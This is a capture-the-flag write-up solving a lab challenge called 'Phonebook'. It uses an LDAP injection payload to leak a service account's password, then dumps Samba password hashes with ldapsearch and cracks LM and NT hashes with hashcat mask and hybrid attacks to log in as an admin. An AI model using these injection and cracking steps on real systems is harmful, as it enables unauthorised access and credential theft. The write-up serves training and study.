




# Phonebook

Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition
can last several ... who knows ... years?

Your task is to gain access to the application running on http://phonebook.mysterious-delivery.tcc:40000.

May the Packet be with you!

---



Looking into the web source code, I found the following comments:

```
<!-- New LDAP server host: 10.99.0.121 -->
<!-- 1/2/2022 Temporary search filter (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_))(memberof=cn=nonmigrated,ou=groups,dc=local,dc=tcc)) -->
<!-- 6/8/2022 Filter after migration  (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_}))) -->
```

Phonebook's IP is `10.99.0.120` so this is a different node. Let's `nmap`:

```
$ nmap -sV 10.99.0.121
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-25 22:13 CEST
Nmap scan report for ldap.mysterious-delivery.tcc (10.99.0.121)
Host is up (0.026s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE VERSION
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.85 seconds
```

Indeed, it seems to be running **LDAP** on `389`.

Next, I tested both LDAP filters. The server responds with `Malformed filter - Try harder;-)`.

Then, I tried to send `*`. Great, it enumerates all the users.



The filter value seems to be passed into `uid={VALUE}` which corresponds with the filter examples found in the source
code.

Let's try [LDAP injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection).
I got lucky with `*)(uid=*))(|(uid=*`:



This is great, we got a couple new users like `admin1`, `admin2` and mainly `ldap_sync` even with the
password `gasg35faCasgt%AF`.

BTW, this is how the payload changes the LDAP filter. Effectively, it becomes just `(uid=*)`:

```
(|
  (&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=*)(uid=*))
  (|(uid=*))
)
```

Next logical step is to use the found user and password and connect to LDAP:

```
ldapsearch -H ldap://10.99.0.121 -x -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w 'gasg35faCasgt%AF' -b "DC=local,DC=tcc"

# extended LDIF
#
# LDAPv3
# base <DC=local,DC=tcc> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# local.tcc
dn: dc=local,dc=tcc
objectClass: top
objectClass: dcObject
objectClass: organization
o: nodomain
dc: local

..
```

The full output is in [ldap-dump.txt](ldap-dump.txt).

The file contains Samba passwords.

```
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
```

[LM hash](https://en.wikipedia.org/wiki/LAN_Manager#Password_hashing_algorithm) is pretty weak.
Let's try to crack it with **hashcat**. At first, I grepped all the passwords into a file [LanMan.txt](LanMan.txt).

```
$ hashcat -m 3000 -a 3 LanMan.txt
```

This default strategy quickly cracks 133 out of 134 passwords!

Of course, the only uncracked password is for `admin2` (our web admin).

At least we cracked the first half of the passwords, which is `TOOSTRO` (perhaps "TOO STRONG"?).

To crack the second half, I used a bruteforce attack. Inspired by this question on hashcat forum:
[Unable to crack second half of LM hash ](https://hashcat.net/forum/thread-8771.html):

```
$ hashcat 48448F207404DB05F3BAC3A9216F6D52 -m 3000 -a 3 -1 ?u?d?s ?1?1?1?1?1?1?1
```

It worked! In a couple of minutes, I got the second half `NGPASS.`
So the full password is `TOOSTRONGPASS.`

However, this is not the original password. It's important to understand how LM hashes are generated
> The user’s password is converted to uppercase.

So, the original password might be something like `TooStrongPass.` or any other combination.

I created Python script [find-password.py](../../../../src/main/python/catch22/Phonebook) to enumerate all the
possibilities and find the correct one by comparing against `sambaNTPassword` hash.
I was a bit disappointed when it found no match.

So, what else... Back to LM hash rules. There is one more important:
> The user's password is restricted to a maximum of fourteen characters.

Apparently, the original password might have been longer! How do I recover it? I have the NT hash and I know
how the passwords starts. I'm probably missing only a couple of characters. Let's try
hashcat [Hybrid attack](https://hashcat.net/wiki/doku.php?id=hybrid_attack).

At first, I dumped all the 8192 password prefixes into [passwords.txt](passwords.txt).
Then I ran hashcat, incrementing the number of extra characters:

```
$ hashcat 32644235283BC5561CC7FE4FFFADDAEE -m 1000 -a 6 passworsds.txt ?a?a?a?a
```

After a couple of minutes, the hash was cracked:

```
32644235283bc5561cc7fe4fffaddaee:TooStrongPass.2022
```

Yay! The last step, login on the web as `admin2 / TooStrongPass.2022` and go to Settings:



Flag is `FLAG{iLcT-HnNF-egs3-mCSN}`.

This was a very nice (and long) challenge!